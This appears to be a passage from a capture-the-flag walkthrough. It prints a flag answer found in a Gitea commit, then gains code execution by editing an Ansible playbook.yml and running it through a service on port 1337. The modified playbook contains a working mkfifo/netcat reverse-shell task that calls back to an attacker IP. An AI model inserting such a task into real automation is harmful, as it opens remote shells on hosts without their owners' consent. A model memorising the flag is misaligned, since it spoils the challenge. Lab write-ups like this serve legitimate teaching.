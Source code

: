 ![](gitea-dash.png)

One of the commits mentions adding a flag, and fair enough, if we navigate to the file committed, we get our first flag:

> What is Flag 1?
> 
> Answer: `10d916eaea54bb5ebe36b59538146bb5`

## Gaining Access

The note/memo also mentions something on port 1337, let's check that. 
![](port-1337.png)

Nice, so there's a couple of options for RCE. The most simple one is to modify the `playbook.yml` file in the `ansible` repo and launch the `Run Playbook` action on port 1337. Here's the modified `playbook.yml`:
```yml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: whoami
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi

    - name: revshell
      shell: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.5.201 4444 >/tmp/f
```
